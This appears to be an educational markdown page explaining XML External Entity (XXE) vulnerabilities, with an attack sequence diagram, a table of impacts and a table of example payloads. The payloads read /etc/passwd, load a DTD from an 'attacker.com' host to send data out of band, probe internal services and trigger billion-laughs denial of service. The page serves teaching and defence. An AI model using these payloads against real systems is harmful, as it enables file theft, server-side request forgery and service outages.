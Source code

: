 ### **Introduction**

XML External Entity (XXE) is a vulnerability where attacker manipulate XML processing to access server files, provoke server-side behaviors, or interact with backend systems, often leading to unauthorized data exposure or system impacts.

```mermaid
sequenceDiagram
    participant A as Attacker
    participant B as Web Server
    participant C as XML Parser
    participant U as User

    A->>B: 1. Sends XML Request with Malicious Payload
    B->>C: 2. Passes XML to Parser
    C-->>B: 3. Resolves External Entity (retrieves data)
    B-->>A: 4. Sends Response with Retrieved Data
```

### **The Impact of XXE Attacks**

| Impact                           | Description                                                                                                                                                                       |
|--------------------------------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Local File Inclusion             | Attacker can access and retrieve the contents of local files by using the "[file://](file://)" scheme.                                                                                  |
| Server-Side Request Forgery (SSRF)| The attacker could force the vulnerable server to send HTTP requests to other servers and then capture the responses using "http://" or "https://".                                      |
| Blind SSRF                       | Even when direct responses aren’t returned, attacker could forward the response data to an external server under their control by nesting entities.                                     |
| Information Disclosure           | Malformed XML payloads could cause the application to unintentionally leak sensitive information.                                                                                       |
| Denial-of-Service (DoS)          | Some XML parsers are prone to vulnerabilities that can crash the system when handling specially crafted XML files.                                                                      |

### **Overview of XXE Exploitation Techniques**

This table outlines different XXE exploitation techniques, showcasing example payloads and their effects. These methods leverage XML parser vulnerabilities to extract data, disrupt services, or access internal systems.

| Payload Type | Example Payload | Description |
| --- | --- | --- |
| Remote Resource Retrieval | `<!ENTITY xxe SYSTEM "http://example.com/malicious.dtd">` | This method retrieves external resources by defining an entity that loads data from a remote URL. |
| Local File Disclosure (LFI) | `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | This technique accesses local files on the server by specifying a local file path |
| Base64 Encoding for Data Exfiltration | `<!ENTITY data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">` | Encodes the contents of local files in Base64 format to bypass simple data leakage protections and exfiltrate data covertly. |
| Error-Induced Information Leakage | `<!ENTITY % err SYSTEM "file:///nonexistent/%file;"> <!ENTITY call '%err;'>` | Intentionally triggers errors that can leak server information or expose other vulnerabilities. |
| Out-of-Band (OOB) Interaction | `<!ENTITY % dtd SYSTEM "http://attacker.com/external.dtd"> %dtd;` | Uses external entities to initiate interactions with an attacker-controlled server, allowing data to be transmitted out-of-band. |
| Blind XXE for Service Probing | `<!ENTITY % xxe SYSTEM "http://internal-service.example.com/"> %xxe;` | Exploits blind XXE to probe internal systems and services by trying to interact with them. |
| Recursive Entity Expansion (Billion Laughs Attack) | `<!ENTITY lol "lol"><!ENTITY lol2 "&lol;&lol;"> ... <!ENTITY lol9 "&lol8;&lol8;">` | Causes a denial of service by creating an exponential growth in processing requirements through nested entities. |
| Parameter Entity Attack for SSRF | `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://private.example.com/"> %xxe;]>` | Uses parameter entities to construct requests for server-side request forgery (SSRF), targeting internal or external systems. |
| Complex Nested Entities | `<!DOCTYPE root [<!ENTITY % pe SYSTEM "http://example.com/ent.dtd"> %pe;]>` | Involves defining entities within entities, potentially leading to complex exploitations and unexpected behaviors from the XML parser. |